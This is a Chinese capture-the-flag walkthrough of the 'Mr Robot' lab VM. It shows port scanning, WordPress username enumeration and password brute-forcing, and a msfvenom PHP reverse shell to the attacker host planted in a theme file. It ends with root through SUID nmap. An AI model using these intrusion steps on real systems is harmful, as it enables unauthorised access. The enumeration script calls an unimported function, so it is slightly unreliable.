# 目标

**This VM has three keys hidden in different locations. Your goal is to find all three.** Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.

---

# 信息收集
## 1.主机发现
查看kali的IP地址：
```shell
ip a
```


扫描网段：`192.168.64.0/24`
```shell
nmap -sn --max-rate 1000 192.168.64.0/24
```
得到结果如下：

这个靶机的IP地址为：`192.168.64.7`

## 2.端口扫描

**TCP扫描：**
```shell
nmap -sS -p- --max-rate 1000 192.168.64.7
```
结果如下：


**UDP扫描：**
```shell
nmap -sU 192.168.64.7 --top-ports=100 --max-rate=1000
```
结果如下：


**使用默认脚本扫描，并且判断端口服务版本，系统版本**
```shell
nmap -sC -sV -O 192.168.64.7 -p22,80,443
```


从上面的扫描可以发现：
- 开放的端口有80，443
- 系统是Linux，内核版本应该是比较低的

使用nmap内置的漏洞扫描脚本扫描一下漏洞：
```shell
nmap -sV --script=vuln 192.168.64.7 -p22,80,443
```
没发现漏洞。

## 3.浏览器访问一下



输入上面提示的各种命令，有一个词在反复出现: `mr robot`
这让我想到了一般网站下面都会有一个robots.txt文件，这个文件主要是来告诉爬虫哪些内容不可以爬取，去访问一下：`http://192.168.64.7:80/robots.txt`
页面显示如下：


可以发现有2个文件：
- `fsocity.dic`: 像是一个字典
- `key-1-of -3.txt`: 已经拿到第一个key了

`fsocity.dic`这个字典非常大，对这个字典进行去重（也许能缩小一下这个字典）：
```shell
sort -u fsocity.dic > fsocity.txt
```
查看一下，果然减小了很多。(然后我删除了原来的fsocity.dic，将fsocity.txt改名为fsocity.dic)

当你在网站首页输入`join`后，他会让你输入一个`email`地址，使用Burp Suite抓个包看看：

没看到有太多信息。

打开页面源码看看：



可以看到wordpress的版本应该是`4.3.1`; 看到了一个比较显眼的文件`xmlrpc.php`，这是wordpress里面用于远程调用函数的文件。尝试一下，看看能执行哪些函数：
使用Burp Suite抓包，然后修改为如下：


发送之后，得到如下：


返回了一堆可以调用的函数，可以明显的注意到一个函数：`system.multicall`，这个函数可以一次调用多个，再结合前面得到的字典`fsocity.dic`，如果需要暴力破解，那么速度会加快许多。

上面说了，这个CMS是wordpress，那就去访问一下: `http://192.168.64.7:80/wp-login.php`
页面如下：


去网上查阅一下wordpress 4.3.1可以，这里登陆界面有问题：当你输入不存在的用户名时，上面会显示`Invalid username`，当你输入正确的用户名时（但密码不正确），会显示`ERROR: The password you entered for the username xxx is incorrect.`。我们可以利用这点，使用上面得到的那个字典`fsocity.dic`去尝试爆破一下用户名：编写python代码如下
```python
import os
import requests
from tqdm.auto import tqdm

header = {
    'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0',
    'Referer':'http://192.168.64.7/wp-login.php',
    'Cookie':'s_cc=true; s_fid=7D8207E9FB8C1DB6-2C7C2CF0D5292062; s_nr=1775118414385; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check',
    'Priority':'u=0, i'
}

with open('fsocity.dic',mode='+r') as f:
    for line in tqdm(f):
        data = {
            'log': line.strip(),
            'pwd': '123456'
        }

        response = requests.post(
            url='http://192.168.64.7/wp-login.php',
            headers=header,
            data=data
        )

        if "Invalid username" not in response.text:
            print(line.strip())

        sleep(0.5)
```
成功爆破出2个用户名：（wordpress里面的用户名是不区分大小写的）
- elliot
- ELLIOT

再使用`fsocity.dic`去爆破这个用户的密码：
```shell
wpscan http://192.168.64.7:80 --usernames elliot --passwords fsocity.dic --password-attack xmlrpc-multicall --multicall-max-passwords 100
```
再次成功得到密码：`ER28-0652`

至此，就可以成功登陆wordpress后台了。


---

# 建立反弹连接，进入系统

登陆wordpress界面后，进入`Appearance > editor`，点击查看右侧的各个php文件，尽量不要对源文件造成破坏，我这里点击了`404.php`这个文件，发现下面有`upload`按钮，完美！

使用msfvenom工具生成php反弹连接:
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=8888 -f raw -o php_reverse_tcp.php
```

将这个生成的文件内容（开头的注释符号不要粘进去）粘贴进`404.php`这个文件中。在wordpress里面，`404.php`这个文件的路径在`/wp-content/plugins/插件名/404.php`，可以看到插件名是`Twenty Fifteen`.

在kali中使用`msf`监听端口`8888`:


在浏览器访问: `http://192.168.64.7:80/wp-content/plugins/twentyfifteen/404.php`

建立成功：


---

# 系统提权

先去查找一下系统中带有以下字眼的文件：
- pass
- backup
- key

在*meterpreter*里面输入`shell`:
```shell
find / \( -path /sys -o -path /proc -o -path /usr -o -path /lib -o -path /dev \) -prune -o -iname "*pass*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /usr -o -path /lib -o -path /dev \) -prune -o -iname "*backup*" 2>/dev/null
```




可以发现在`/home/robot`下面有2个文件，去查看一下：


可以破解`c3fcd3d76192e4007dfb496cca67e13b`的md5源码为`abcdefghijklmnopqrstuvwxyz`.

那么系统中的账号robot的密码就有了，现在需要登陆robot账号。
在msf里面：先将daemon用户会话转到后台，`background`
- 下面开始切换用户
    ```
    msf > use exploit/linux/local/su_login

    set password abcdefghijklmnopqrstuvwxyz
    set session 1
    set username robot
    set lhost 192.168.64.2
    set lport 4444

    msf exploit(linux/local/su_login) > run
    ```
- 然后使用python创建一个伪终端：
    ```shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```



### `sudo -l`
找不到，没有 😭

### 寻找有root权限的命令
也就是寻找权限滥用的结果。

```shell
find / -perm -u=s -type f 2>/dev/null
```
结果如下：


在里面可以找到一个`/usr/local/bin/nmap`，在nmap命令里面有`--interactive`参数，可以开启一个交互式的命令行：
```
nmap --interactive
nmap > !sh
nmap > whoami
```

至此结束。

---

# 三个key
- `key-1-of-3.txt`（网站根目录）: 073403c8a58a1f80d943455fb30724b9
- `key-2-of-3.txt`（/home/robot）: 822c73956184f694993bede3eb39f959
- `key-3-of-3.txt`（/root）: 04787ddef27c3dee1ee161b21670b4e4

---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro 32G 512G
- `UTM虚拟机`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机mrRobot: 
- `https://www.vulnhub.com/entry/mr-robot-1,151/`
- 解压出来的`mrrobot.ova`文件，使用
    ```shell
    tar -xvf mrrobot.ova
    ```
    使用解压出来的`.vmdk`文件

---

> 水平有限，有不足、错误之处欢迎指出。🧐